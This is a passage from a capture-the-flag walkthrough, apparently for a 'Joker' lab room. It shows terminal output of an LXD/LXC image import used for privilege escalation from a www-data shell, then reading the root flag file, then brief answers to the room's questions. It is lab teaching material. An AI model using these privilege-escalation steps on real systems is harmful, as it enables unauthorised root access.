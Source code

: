 ```
www-data@ubuntu:/tmp$ lxc image import ./alpine-v3.13-x86_64-20210603_0407.tar.gz  --alias myimage
<-v3.13-x86_64-20210603_0407.tar.gz  --alias myimage
www-data@ubuntu:/tmp$ lxc image list
lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| myimage | 1e7c4197270d | no     | alpine v3.13 (20210603_04:07) | x86_64 | 3.10MB | Jun 3, 2021 at 8:11am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
www-data@ubuntu:/tmp$ 
```

Continuing the exploit further,
```
/mnt/root/root # ^[[31;18Rcat {file name}.{extension}
cat final.txt

     ██╗ ██████╗ ██╗  ██╗███████╗██████╗ 
     ██║██╔═══██╗██║ ██╔╝██╔════╝██╔══██╗
     ██║██║   ██║█████╔╝ █████╗  ██████╔╝
██   ██║██║   ██║██╔═██╗ ██╔══╝  ██╔══██╗
╚█████╔╝╚██████╔╝██║  ██╗███████╗██║  ██║
 ╚════╝  ╚═════╝ ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝
                                         
!! Congrats you have finished this task !!

Contact us here:

Hacking Articles : https://twitter.com/rajchandel/
Aarti Singh: https://in.linkedin.com/in/aarti-singh-353698114

+-+-+-+-+-+ +-+-+-+-+-+-+-+
 |E|n|j|o|y| |H|A|C|K|I|N|G|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+
```


## 4. Room Specific Questions

#### What version of Apache is it?
Check the nmap scan results above in section 1.

#### What port on this machine not need to be authenticated by user and password?
8080 asks for password, the other does not.

#### There is a file on this port that seems to be secret, what is it?
Check the results of the web enumeration scan in section 1. 
